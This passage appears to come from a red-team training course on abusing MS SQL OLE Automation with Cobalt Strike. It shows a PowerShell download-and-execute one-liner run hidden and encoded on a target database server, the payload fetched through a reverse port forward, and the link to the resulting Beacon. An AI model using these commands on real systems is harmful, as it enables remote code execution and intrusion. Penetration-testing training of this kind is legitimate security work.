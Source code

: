 One way to leverage this is to use a PowerShell one-liner to pull and execute a payload through a reverse port forward.  This is often required when exploiting servers because they're typically restricted from sending traffic outside of the network boundary.  Host a payload on Cobalt Strike's web server, e.g. via the scripted web delivery (**Attacks > Scripted Web Delivery**), and manually create a PowerShell one-liner to grab it through the reverse port forward.  For example:

```batch
PS C:\Users\Attacker> $cmd = 'iex (new-object net.webclient).downloadstring("http://lon-wkstn-1:8080/b")'
PS C:\Users\Attacker> [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($cmd))
```

Then execute the one-liner on the target.

```batch
beacon> sql-olecmd lon-db-1 "cmd /c powershell -w hidden -nop -enc [ONE-LINER]"

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] OLE Automation Procedures is enabled
[*] Executing system command...

[*] Setting sp_oacreate to "tltsphje"
[*] Setting sp_oamethod to "ckilexuf"
[*] Command executed
[*] Destoryed "tltsphje" and "ckilexuf"

[*] Disconnecting from server
```

Open the web log (**View > Web Log**) and you should see a hit for the hosted payload.  If not, go back and check things like your reverse port forward and firewall rule.

```batch
04/06 15:16:43 visit (port 80) from: 127.0.0.1
	Request: GET /b
	page Scripted Web Delivery (powershell)
	null
```

You should then be able to link to the new Beacon.

```batch
beacon> link lon-db-1 TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337
[+] established link to child beacon: 10.10.120.20
```

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/496cef243d90223e6a393f2cba011e47.png" alt="" width="100%"><figcaption></figcaption></figure>

Finally, return OLE Automation to its original state.

```batch
beacon> sql-disableole lon-db-1
```

### SQL Common Language Runtime <a href="#el_1743855438544_389" id="el_1743855438544_389"></a>
